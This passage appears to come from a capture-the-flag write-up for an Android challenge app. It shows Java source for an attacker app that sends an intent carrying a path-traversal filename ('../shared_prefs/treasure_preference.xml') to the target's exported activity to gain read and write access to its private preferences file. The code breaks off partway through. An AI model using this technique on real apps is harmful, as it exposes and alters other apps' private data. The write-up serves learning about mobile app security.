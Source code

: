 ![img-description](6_4.png)

Lets now create an exploit to edit the shared treasure_preference file

```java
package com.example.unchartedpathsolution;

import android.content.ContentResolver;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.annotation.Nullable;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

import java.io.IOException;
import java.io.OutputStream;
import java.io.OutputStreamWriter;

public class MainActivity extends AppCompatActivity {
    TextView textView;
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });
        Button button = findViewById(R.id.button);
        textView = findViewById(R.id.textView);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            // path traversal allows us to putextra the file name we want to be granted the permissions to read and write
            intent.putExtra("filename", "../shared_prefs/treasure_preference.xml");
            // set the classname to trigger
            intent.setClassName("com.example.unchartedpath", "com.example.unchartedpath.UnchartedPathActivity");
            // start activity for result since we expect to receive a result from the other app
            startActivityForResult(intent, 42);
        });
```